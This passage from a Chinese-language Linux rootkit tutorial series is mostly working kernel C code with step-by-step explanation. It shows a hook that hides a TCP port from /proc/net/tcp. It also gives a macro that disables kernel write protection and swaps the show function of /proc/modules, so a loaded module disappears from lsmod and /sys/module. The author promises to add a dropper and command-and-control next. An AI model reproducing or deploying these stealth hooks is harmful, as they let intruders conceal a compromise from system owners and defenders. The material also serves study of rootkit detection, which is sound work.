           fm_alert("Hiding port %d using needle %s.\n",
                    SECRET_PORT, needle);
           // 记录里包含我们需要隐藏的的端口信息，
           // 把 count 减掉一个记录大小，
           // 相当于把这个记录去除掉了。
           seq->count -= TMPSZ;
       }

       return ret;
   }

实验
****

我们拿 TCP_ / IPv4_ 111 端口来做演示，
读者需要根据实际测试时的环境做必要改动。
如图，加载 ``pthidko`` 之前，我们可以看到 111 端口处于监听状态；
加载之后，这条记录不见了，被隐藏起来；
把 ``pthidko`` 卸载掉，这条记录又显示出来了。

6. 隐藏内核模块
+++++++++++++++

`《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
一文里提到了隐藏内核模块的两种方式，
一种可以从 ``lsmod`` 中隐藏掉，
另一种可以从 ``/sys/module`` 里隐藏掉。
然而，这两种隐藏方式都使得模块没法卸载了。
在我们开发的初级阶段，这一点也不方便调试，笔者暂时就不讲这两个了。

我们看看另外的思路。从 ``/sys/module`` 里隐藏的话，
我们使用之前隐藏文件的方式隐藏掉就可以了。
我想聪明的读者应该想到了这点，这再一次证明了文件隐藏的意义。

那么怎么从 ``lsmod`` 里隐藏掉呢。
仔细回想一下，既然 ``lsmod`` 的数据来源是 ``/proc/modules`` ，
那用我们隐藏端口时采用的方式就好了：
钩掉 ``/proc/modules`` 的 ``show`` 函数，
在我们的假 ``show`` 函数里过滤掉我们想隐藏的模块。

粗略地浏览内核源码，我们可以发现，
``/proc/modules`` 的实现位于 ``kernel/module.c`` ，
并且主要的实现函数是 ``m_show`` 。

接下来的问题是，
我们怎么钩这个文件 ``seq_file`` 接口里的 ``show`` 函数呢，
钩法与 ``/proc/net/tcp`` 并不一样，但是类似，请看下面的宏。

.. code-block:: c

   # define set_file_seq_op(opname, path, new, old)                    \
       do {                                                            \
           struct file *filp;                                          \
           struct seq_file *seq;                                       \
           struct seq_operations *seq_op;                              \
                                                                       \
           fm_alert("Opening the path: %s.\n", path);                  \
           filp = filp_open(path, O_RDONLY, 0);                        \
           if (IS_ERR(filp)) {                                         \
               fm_alert("Failed to open %s with error %ld.\n",         \
                        path, PTR_ERR(filp));                          \
               old = NULL;                                             \
           } else {                                                    \
               fm_alert("Succeeded in opening: %s\n", path);           \
               seq = (struct seq_file *)filp->private_data;            \
               seq_op = (struct seq_operations *)seq->op;              \
               old = seq_op->opname;                                   \
                                                                       \
               fm_alert("Changing seq_op->"#opname" from %p to %p.\n", \
                        old, new);                                     \
               disable_write_protection();                             \
               seq_op->opname = new;                                   \
               enable_write_protection();                              \
           }                                                           \
       } while (0)

这个宏与之前写的宏非常类似，唯一的不同，
并且读者可能不能理解的是下面这一行。

.. code-block:: c

   seq = (struct seq_file *)filp->private_data;

我想，读者的问题应该是：
``struct file`` 的 ``private_data`` 成员为什么会是我们要找的
``struct seq_file`` 指针？

请看内核源码。下面的片段是 ``/proc/modules`` 的初始部分，
我们想要做的是钩掉 ``m_show`` 。
纵观源码，引用了 ``modules_op`` 的只有 ``seq_open`` 。

.. code-block:: c

   static const struct seq_operations modules_op = {
        .start  = m_start,
        .next   = m_next,
        .stop   = m_stop,
        .show   = m_show
   };

   static int modules_open(struct inode *inode, struct file *file)
   {
        return seq_open(file, &modules_op);
   }

那我们跟进 ``seq_open`` 看看，
seq_open 的实现位于 ``fs/seq_file.c`` 。

.. code-block:: c

   int seq_open(struct file *file, const struct seq_operations *op)
   {
        struct seq_file *p;

        WARN_ON(file->private_data);

        // 分配一个 ``struct seq_file`` 的 内存。
        p = kzalloc(sizeof(*p), GFP_KERNEL);
        if (!p)
            return -ENOMEM;

        // 读者看到这一行应该就能理解了。
        // 对 ``/proc/modules`` 而言，
        // ``struct file`` 的 ``private_data`` 指向的就是
        // 他的 ``struct seq_file``。
        file->private_data = p;

        mutex_init(&p->lock);
        // 把 ``struct seq_file`` 的 ``op`` 成员赋值成 ``op``，
        // 这个 ``op`` 里就包含了我们要钩的 ``m_show`` 。
        p->op = op;

        // 这儿省略若干代码。

        return 0;
   }

这时候，我们可以看看 ``/proc/modules`` 的假 ``show`` 函数了。
过滤逻辑是很容易理解的；
读者应该重点注意一下 ``last_size`` 的计算，
这也就是笔者在讲端口隐藏时说到我们可以不用 TMPSZ ，
我们可以自己计算这一条记录的大小。
自己计算的灵活性就在于，就算每个记录的大小不是同样长的，
我们的代码也能正常工作。

**注** ： ``/proc/modules`` 里的每条记录长度确实不是一样，有长有短。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       size_t last_count, last_size;

       // 保存一份 ``count`` 值，
       // 下面的 ``real_seq_show`` 会往缓冲区里填充一条记录，
       // 添加完成后，seq->count 也会增加。
       last_count = seq->count;
       ret =  real_seq_show(seq, v);

       // 填充记录之后的 count 减去填充之前的 count
       // 就可以得到填充的这条记录的大小了。
       last_size = seq->count - last_count;

       if (strnstr(seq->buf + seq->count - last_size, SECRET_MODULE,
                   last_size)) {
           // 是需要隐藏的模块，
           // 把缓冲区已经使用的量减去这条记录的长度，
           // 也就相当于把这条记录去掉了。
           fm_alert("Hiding module: %s\n", SECRET_MODULE);
           seq->count -= last_size;
       }

       return ret;
   }

实验
****

我们选择隐藏模块自己（ ``kohidko`` ）来做演示。看下图。
加载 ``kohidko`` 之后，
``lsmod`` 没有显示出我们的模块，
``/sys/module`` 下面也列举不到我们的模块；
并且，右侧 ``dmesg`` 的日志也表明我们的假 ``filldir`` 与假 ``show``
函数起了过滤作用。

第二部分：未来展望
------------------

至此，我们讨论了大部分作为一个 Rootkit 必备的基本功能；
但是，我们的代码依旧是零散的一个一个的实验，而不是一个有机的整体。
当然，笔者的代码尽可能的做好了布局组织与模块化，
这能给我们以后组装的时候节省一些力气。

在接下来的文章里，一方面，
我们会把这些一个一个零散的实验代码组装成一个能进行实验性部署的
Rootkit。要实现这个目标，
除了组装，我们还需要释放程序（ ``Dropper`` ），
还需要增加远程控制（ ``Command & Control`` ）能力。

再者，我们可能会着手讨论 Rootkit 的检测与反检测。
还有就是讨论当前 Linux Rootkit 的实际发展状态，
比如分析已知用于实际攻击的 Rootkit 所采用的技术，
分析我们的技术水平差异，并从中学习如何实现更先进的功能。

最后，我们还可能改善兼容性与拓展性。
我们现在的代码只在比较新的内核版本（比如 4.5.x / 4.6.x）上测试过。
而且，我们压根就没有考虑已知的兼容性问题。
因而，要想在 3.x，甚至 2.x 上跑，
我们还需要花时间兼容不同版本的内核。
然后，我们还希望往其他架构上发展（比如 ARM_ ）。

**下车，走好。**

第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `This is what a root debug backdoor in a Linux kernel looks like <http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/>`_
- `mncoppola/suterusu: An LKM rootkit targeting Linux 2.6/3.x on x86(_64), and ARM <https://github.com/mncoppola/suterusu>`_
- Notification Chains in Linux Kernel `Part 01 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-part-01.html>`_ `Part 02 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-kernel.html>`_ `Part 03 <http://codingfreak.blogspot.com/2012/02/notification-chains-in-linux-kernel.html>`_

2. 延伸阅读
+++++++++++

- `Suterusu Rootkit: Inline Kernel Function Hooking on x86 and ARM <https://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/>`_

.. _IDT: https://en.wikipedia.org/wiki/Interrupt_descriptor_table
.. _Interrupt descriptor table: IDT_
.. _MSR: https://en.wikipedia.org/wiki/Model-specific_register
.. _Model-specific register: MSR_
.. _MSR_LSTAR: http://lxr.free-electrons.com/ident?i=MSR_LSTAR
.. _Inline Hooking: https://en.wikipedia.org/wiki/Hooking#API.2FFunction_Hooking.2FInterception_Using_JMP_Instruction
.. _全志: http://www.allwinnertech.com/
.. _AllWinner: `全志`_
.. _uid: https://en.wikipedia.org/wiki/User_identifier
.. _euid: uid_
.. _/proc: https://en.wikipedia.org/wiki/Procfs
.. _API: https://en.wikipedia.org/wiki/Application_programming_interface
.. _代码仓库: https://github.com/NoviceLive/research-rootkit
.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门: http://www.freebuf.com/news/104270.html
.. _FB: http://www.freebuf.com/
.. _RCE: https://en.wikipedia.org/wiki/Arbitrary_code_execution
.. _LPE: https://en.wikipedia.org/wiki/Privilege_escalation
.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html
.. _ext4: https://en.wikipedia.org/wiki/Ext4
.. _systemd: https://www.freedesktop.org/wiki/Software/systemd/
.. _TCP: https://en.wikipedia.org/wiki/Transmission_Control_Protocol
.. _UDP: https://en.wikipedia.org/wiki/User_Datagram_Protocol
.. _IPv4: https://en.wikipedia.org/wiki/IPv4
.. _IPv6: https://en.wikipedia.org/wiki/IPv6
.. _socket: https://en.wikipedia.org/wiki/Network_socket
.. _ARM: https://www.arm.com/
.. _Kali: https://www.kali.org/
